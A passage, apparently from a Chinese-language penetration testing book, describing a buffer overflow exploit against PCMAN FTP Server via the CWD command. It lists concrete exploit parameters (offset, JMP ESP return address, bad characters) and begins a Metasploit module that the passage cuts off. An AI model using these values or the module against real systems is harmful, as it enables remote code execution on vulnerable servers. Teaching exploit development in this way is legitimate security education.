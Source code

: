 ![](../images/00137.jpeg)

最初的攻击从命令行获取用户名、密码和主机。但是，我们用固定的硬编码值修改了机制。

一旦我们执行攻击，将显示以下屏幕：

![](../images/00163.jpeg)

我们可以看到计算器应用程序弹出，表明该漏洞工作正常。

# 收集精华

让我们通过下表了解需要从前面的漏洞中获取哪些重要值，以便在 Metasploit 中生成等效模块：

| **序列号** | **变量** | **值** |
| 1. | 偏移值 | `2008` |
| 2. | 使用`JMP ESP`搜索从可执行模块中找到目标返回/跳转地址/值 | `0x71AB9372` |
| 3. | 目标端口 | `21` |
| 4. | 外壳代码的前导 NOP 字节数，用于删除不规则项 | `10` |
| 5. | 思维方式 | `CWD`命令后跟 2008 字节的垃圾数据，后跟任意返回地址、NOPs 和外壳代码 |

我们拥有构建 Metasploit 模块所需的所有信息。在下一节中，我们将看到 Metasploit 如何帮助 FTP 进程，以及在 Metasploit 中创建漏洞利用模块是多么容易。

# 生成 Metasploit 模块

开始构建 Metasploit 模块的最佳方法是复制现有的类似模块并对其进行更改。然而，`Mona.py`脚本也可以动态生成 Metasploit 特定的模块。在本书的最后几节中，我们将介绍如何使用`Mona.py`脚本快速利用漏洞。

现在让我们看一下 Metasploit 中利用漏洞的等效代码，如下所示：

```
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
Rank = NormalRanking
include Msf::Exploit::Remote::Ftp
def initialize(info = {})
super(update_info(info,
'Name' => 'PCMAN FTP Server Post-Exploitation CWD Command',
'Description' => %q{
This module exploits a buffer overflow vulnerability in PCMAN FTP
},
  'Author' =>
    [
      'Nipun Jaswal'

    ],
  'DefaultOptions' =>
    {
      'EXITFUNC' => 'process',
      'VERBOSE' => true
     },
  'Payload' =>
    {
      'Space' => 1000,
      'BadChars' => "\x00\xff\x0a\x0d\x20\x40",
    },
  'Platform' => 'win',
  'Targets' =>
  [
  [ 'Windows XP SP2 English',
    {
```